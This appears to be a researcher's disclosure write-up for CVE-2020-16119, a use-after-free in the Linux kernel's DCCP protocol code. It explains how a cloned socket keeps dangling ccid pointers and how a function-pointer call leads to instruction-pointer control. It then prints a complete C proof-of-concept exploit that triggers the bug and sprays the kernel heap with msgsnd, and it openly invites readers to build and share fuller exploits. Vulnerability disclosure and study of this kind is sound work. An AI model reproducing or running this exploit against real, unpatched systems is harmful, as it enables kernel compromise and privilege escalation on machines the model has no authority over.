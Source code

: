 # CVE-2020-16119

## Background
Datagram Congestion Control Protocol (DCCP) is an unreliable, connection
oriented protocol designed to solve issues present in UDP and TCP, particularly
for real-time and multimedia (streaming) traffic.
It divides into a base protocol and pluggable congestion control
modules called CCIDs. Like pluggable TCP congestion control, at least one CCID
needs to be enabled in order for the protocol to function properly. In the Linux
implementation, this is the TCP-like CCID2. Additional CCIDs, such as
the TCP-friendly CCID3, are optional.

In recent months I have researched and reviewed various parts of the Linux kernel networking subsystem. In this time, I have come across a use-after-free vulnerability in the DCCP component of the latest kernel release (5.8.10).

## How Does the UAF Happen?
First, let's understand how the UAF occurrs in the first place. Here's a breakdown:

We create a socket with type ```SOCK_DCCP``` and protocol ```IPPROTO_IP```:
```c
socket(AF_INET6,SOCK_DCCP,IPPROTO_IP);
```
Then, we call ```listen()``` on the resulting socket. The socket object is now in the DCCP_LISTEN state.
Behind the scenes, when the socket is put in said state, ```dccp_create_openreq_child()``` is called:

```c
struct sock *dccp_create_openreq_child(struct sock *sk,
				       const struct request_sock *req,
				       const struct sk_buff *skb)
{
	struct sock *newsk = inet_csk_clone_lock(sk, req, GFP_ATOMIC);
	if (newsk != NULL) {
		struct dccp_request_sock *dreq = dccp_rsk(req);
		struct inet_connection_sock *newicsk = inet_csk(newsk);
		struct dccp_sock *newdp = dccp_sk(newsk);
		newdp->dccps_role	    = DCCP_ROLE_SERVER;
		newdp->dccps_hc_rx_ackvec   = NULL;
		newdp->dccps_service_list   = NULL;
    ...
}
```

We can see in ```dccp_create_openreq_child``` that the initial socket object is being cloned[1].
Note that when ```inet_csk_clone_lock()``` is called, dccps_hc_rx_ccid and dccps_hc_tx_ccid are copied.

If one of the socket objects is disconnected or closed, it
frees dccps_hc_rx_ccid/dccps_hc_tx_ccid and provides us a dangling pointer in the other socket object.

To make one of our socket objects disconnect, we can call ```connect()``` on it with AF_UNSPEC, and it will "free" our socket via ```dccp_disconnect()```.
```dccp_disconnect()``` sets the socket state to DCCP_CLOSED, and free and assign NULL to
dccps_hc_rx_ccid and dccps_hc_tx_ccid.

Then, we need to call ```connect()``` on a new socket with the same type and protocol as the first one.
After that, we call ```listen()``` on our new socket so our new socket object will get cloned with ```dccp_create_openreq_child()```.
```dccp_create_openreq_child()``` will create a new socket object thats holds the dangling pointers of dccps_hc_rx_ccid/dccps_hc_tx_ccid.
This leads to the old socket and the new socket holding the same pointers to dccps_hc_rx_ccid/dccps_hc_tx_ccid.

## Escalation to RIP Control
If we want to get arbitrary code execution with our dangling pointer (the freed object that we are using after we free ;D ), we have to dereference the dangling pointer 
with close/getsockopt. For example,

```ccid_hc_tx_delete``` is the function that is responsible for freeing dccps_hc_rx_ccid/dccps_hc_tx_ccid:

```c
void ccid_hc_tx_delete(struct ccid *ccid, struct sock *sk)
{
	if (ccid != NULL) {
		if (ccid->ccid_ops->ccid_hc_tx_exit != NULL)
			ccid->ccid_ops->ccid_hc_tx_exit(sk);      
		kmem_cache_free(ccid->ccid_ops->ccid_hc_tx_slab, ccid);
	}
}
```
We can see that this line: ```ccid->ccid_ops->ccid_hc_tx_exit(sk);``` is calling a function pointer.

When this function is called for the first time (when the ```connect()``` with AF_UNSPEC is called), it is harmless and simply does cleanup.

However, when it is called the second time (when we actually ```close()``` and control the dangling pointer), it can call an arbitrary address specified by us.

In order to exploit this and get IP control, we have to heap-spray the kernel.
I used the msgsnd syscall to heap-spray the kernel. If you like, you can use other methods if you like.

### **Challenge**: 
write your own exploits for this UAF, in the same method i did or with another heap-spray technique. If you do, please share them with me! (@ManorHadar)

POC: (you can see [trigger_uaf.c](trigger_uaf.c) for a clean POC for self-uses.)
```c

/*
CVE-2020-16119
POC by @ManorHadar
(Feel free to share your exploits for this CVE with me!)
*/

#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/syscall.h>
#include <netinet/in.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <pthread.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <sys/ipc.h>
#include <sys/shm.h>

int fd1,fd2;
struct sockaddr_in6 sk1,sk2;
#define BUFF_SIZE 64

void heap_spray();

int trigger_uaf()
{
  struct sockaddr_in6 csk1,csk2;
  struct sockaddr_in6 csk3;
  struct sockaddr_in6 csk4;
  
  fd1 = socket(AF_INET6,SOCK_DCCP,IPPROTO_IP);

  memset(&sk1,0,sizeof(sk1));
  sk1.sin6_family = AF_INET6;
  sk1.sin6_addr = in6addr_loopback;
  sk1.sin6_port = 0x214e;
  bind(fd1,(struct sockaddr*)&sk1,sizeof(sk1));

  listen(fd1,0x1); //DCCP_LISTEN

  fd2 = socket(AF_INET6, SOCK_DCCP, IPPROTO_IP);

  memset(&csk1,0,sizeof(csk1));
  csk1.sin6_family = AF_INET6;
  csk1.sin6_addr = in6addr_loopback;
  csk1.sin6_port = 0x214e;
  csk1.sin6_flowinfo = 0;
  connect(fd2,(struct sockaddr*)&csk1,sizeof(csk1));

  memset(&csk2,0,sizeof(csk2));
  // calling connect with AF_UNSPEC (free)
  connect(fd1,(struct sockaddr*)&csk2,sizeof(csk2));
  memset(&sk2,0,sizeof(sk2));

  heap_spray();

  sk2.sin6_family = AF_INET6;
  sk2.sin6_addr = in6addr_loopback;
  sk2.sin6_port = htons(0x2000);
  sk2.sin6_flowinfo = 0x2;
  sk2.sin6_scope_id = 6;
  bind(fd2,(struct sockaddr*)&sk2,sizeof(sk2));

  memset(&csk3,0,sizeof(csk3));
  connect(fd2,(struct sockaddr*)&csk3,sizeof(csk3));

  listen(fd2,0xb1);

  memset(&csk4,0,sizeof(csk4));
  csk4.sin6_family = AF_INET6;
  csk4.sin6_port = htons(0x2000);
  memset(&csk4.sin6_addr,0,sizeof(struct in6_addr));
  csk4.sin6_flowinfo = 1;
  csk4.sin6_scope_id = 0x32f1;
  connect(fd1,(struct sockaddr*)&csk4,sizeof(csk4));
  socket(AF_INET,SOCK_STREAM,0);
  close(fd2);
  return fd2;
}

void heap_spray()
{
   printf("Spraying the Heap");
   struct {
     long mtype;
     char mtext[BUFF_SIZE];
   }msg;
   memset(msg.mtext, 0x41, BUFF_SIZE-1);
   msg.mtext[BUFF_SIZE] = 0;
   int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
   msg.mtype = 1; // mtype must be > 0 
   for(int i = 0; i < 240; i++)
        msgsnd(msqid, &msg, sizeof(msg.mtext), 0);
}

int main(void)
{
  printf("Triggering the Use-After-Free");
  trigger_uaf();
  return 0;
}
```
